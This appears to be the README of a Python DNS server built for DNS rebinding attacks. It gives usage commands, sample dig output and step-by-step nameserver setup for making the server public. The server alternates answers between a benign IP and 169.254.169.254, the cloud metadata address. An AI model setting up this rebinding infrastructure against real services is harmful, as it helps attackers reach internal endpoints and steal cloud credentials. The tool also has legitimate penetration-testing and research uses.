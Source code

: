 # DNS server for DNS rebinding attacks 
DNS server for DNS rebinding attacks implemented in Python. The base DNS server part is cloned from https://gist.github.com/andreif/6069838 which has Apache 2.0 license.
## Typical use:
```
python3 dnsrebinding.py -d the.subdomain.mydomain.tld -i 1.2.3.4 169.254.169.254
```
**Use sudo in case of permission denied to run on port 53.**


Such server will run on port 53 and respond in turn to A DNS queries for ```the.subdomain.mydomain.tld``` with 1.2.3.4 or 169.254.169.254. If you want to start with the other IP address, restart the server with another order or simply *shift* the counter with manual DNS query.
Sample output of this example use would be:
```
$ dig @localhost +short the.subdomain.mydomain.tld
1.2.3.4

$ dig @localhost +short the.subdomain.mydomain.tld
169.254.169.254

$ dig @localhost +short the.subdomain.mydomain.tld
1.2.3.4

$ dig @localhost +short the.subdomain.mydomain.tld
169.254.169.254

$ dig @localhost +short the.subdomain.mydomain.tld
1.2.3.4
...
```

## Making the server visible in the web
To perform the DNS rebinding attack the server must be visible in the web. There are 2 prerequisites:
1. server with public IP address
2. having registered domain

### Testing the server
If you have a server with a public ip address, let's say 5.6.7.8, you can test the server using dig.
Run on the server:
```
python3 dnsrebinding.py -d the.subdomain.mydomain.tld -i 1.2.3.4 169.254.169.254
```
You don't need to have a registered domain in this step.
Then test your server with 
```
dig @5.6.7.8 the.subdomain.mydomain.tld
``` 

### Testing the domain setup
The next part is setting up your domain NS records to point into your server. I have used Namecheap *.me* domain using free 1 year domain registration from [Github Education Pack](https://education.github.com/pack). I also use this domain to access my VPS on DigitalOcean, so I don't want to break the resolution of mydomain.me, but instead work with the subdomains.
I will provide exact steps taken to set up the nameservers.
1. ```Namecheap > Domain List > Manage > Domain > Nameservers > Custom DNS```
    
    Here I just have standard DigitalOcean nameservers:
    ```
    ns1.digitalocean.com
    ns2.digitalocean.com
    ns3.digitalocean.com
    ```

2. ```DigitalOcean > Networking > Manage Domain```
    
    And here I have two records:
    ```
    dnsrebinding.mydomain.me NS ns1.mydomain.me
    ```
    And the ns1 also needs the A record
    ```
    ns1.mydomain.me A 5.6.7.8
    ```
    Where 5.6.7.8 is my public IP address. 

In such setup, I can run my DNS server with an arbitrary subdomain of `dnsrebinding.mydomain.me`.

To test this part, use dig with `+trace` option. When tracing is enabled, dig makes iterative queries to resolve the name being looked up. It will allow to verify the setup immidiately, as the synchronization of the DNS servers make take up to 48 hours and may cause false negatives.

So run the script on your server with:
```
python3 dnsrebinding.py -d test.dnsrebinding.mydomain.me -i 1.2.3.4 169.254.169.254
```
The IP addresses here do not matter much.
Test the server with dig:
```
dig +trace test.dnsrebinding.mydomain.me
```
If everything works fine, at the end of the output there should be something like:
```
test.dnsrebinding.mydomain.me. 0 IN A 169.254.169.254
;; Received 85 bytes from 5.6.7.8#53(ns1.mydomain.me) in 59 ms
```
